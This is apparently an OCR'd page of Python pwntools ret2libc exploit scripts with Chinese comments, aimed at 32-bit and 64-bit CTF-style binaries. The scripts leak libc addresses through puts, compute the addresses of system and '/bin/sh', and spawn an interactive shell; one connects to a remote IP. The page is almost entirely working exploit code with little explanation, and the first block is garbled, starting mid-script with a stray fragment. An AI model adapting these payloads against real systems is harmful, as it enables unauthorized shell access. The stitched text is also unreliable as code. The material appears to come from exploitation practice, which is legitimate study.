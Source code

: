 ```python
system_addr = libc_addr + libc.sym["system"] #计算system函数的真实地址
binsh_addr = libc_addr + next(libc.search(b"/bin/sh"))  #计算binsh字符串的真实地址
payload2 = b'a' * 112 + p32(system_addr) + b"aaaa" + p32(binsh_addr)
#pause()
p.sendline(payload2)
p.interactive()ret2libc3')
puts_plt = 0x08048460
puts_got = 0x0804A018
start_addr = 0x080484D0

payload1 = b'A'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got)
p.sendlineafter("!?",payload1)
puts_addr=u32(p.recv(4))

print("puts_addr:",hex(puts_addr))

offset_puts = 0x000732A0
offset_system = 0x00048170
offset_bin_sh = 0x001BD0D5
libc_system = puts_addr - offset_puts + offset_system
libc_bin_sh = puts_addr - offset_puts + offset_bin_sh

payload2 = b'a' * 112 + p32(libc_system) + p32(1234) + p32(libc_bin_sh)
p.sendlineafter("!?",payload2)
p.interactive()
```

64位：

```python
from pwn import *
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/home/feel/pypy/libc-2.31.so")
e=ELF("/home/feel/atta")
p = remote('8.147.132.32','15360')
pop_rdi_ret_addr = 0x400783
puts_plt = e.plt['puts'] #puts函数的入口地址
read_got = e.got['read']  #puts函数的got表地址
start_addr = e.symbols['_start'] #程序的起始地址
offset = 88
payload = b"a" * offset
payload += p64(pop_rdi_ret_addr)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(start_addr)
#pause()
p.send(payload)
read_real_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
print("read_real_addr: ", hex(read_real_addr))
libc_base = read_real_addr - libc.sym["read"]
print("libc_base: ", hex(libc_base))
system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))
print("system_addr:{}".format(hex(system_addr)))
print("binsh_addr:{}".format(hex(binsh_addr)))
payload = b"a" * offset
payload += p64(0x400509) #需要添加一个ret，仅仅用于栈平衡
payload += p64(pop_rdi_ret_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)
p.recv()
p.send(payload)
p.interactive()
```
